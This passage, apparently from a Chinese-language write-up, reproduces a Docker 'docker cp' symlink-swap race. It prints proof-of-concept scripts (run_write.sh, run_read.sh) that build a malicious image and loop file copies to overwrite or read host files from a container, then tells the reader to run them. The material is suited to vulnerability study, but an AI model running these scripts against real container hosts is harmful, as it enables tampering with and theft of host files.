 ```
echo "SUCCESS -- HOST FILE CHANGED" | tee localpath

# Now continually try to copy the files.
while true
do
        docker cp localpath "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET"
done

```

#### run_read.sh

模拟docker cp将容器内文件复制到宿主机上场景，一旦触发，容器内恶意符号链接在宿主机文件系统解析后执行的文件将被复制到受害者设定的宿主机目录下

```
#!/bin/bash

SYMSWAP_PATH=/totally_safe_path
SYMSWAP_TARGET=/w00t_w00t_im_a_flag

# Create our flag.
echo "SUCCESS -- COPIED FROM THE HOST" | sudo tee "$SYMSWAP_TARGET"
sudo chmod 000 "$SYMSWAP_TARGET"

# Run and build the malicious image.
docker build -t cyphar/symlink_swap \
        --build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \
        --build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/
ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")

# Now continually try to copy the files.
idx=0
while true
do
        mkdir "ex${idx}"
        docker cp "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET" "ex${idx}/out"
        idx=$(($idx + 1))
done

```

最后复现下

这里要把bash切换成zsh

```
chsh -s /bin/zsh	
```

之后我们运行一下./run_write.sh
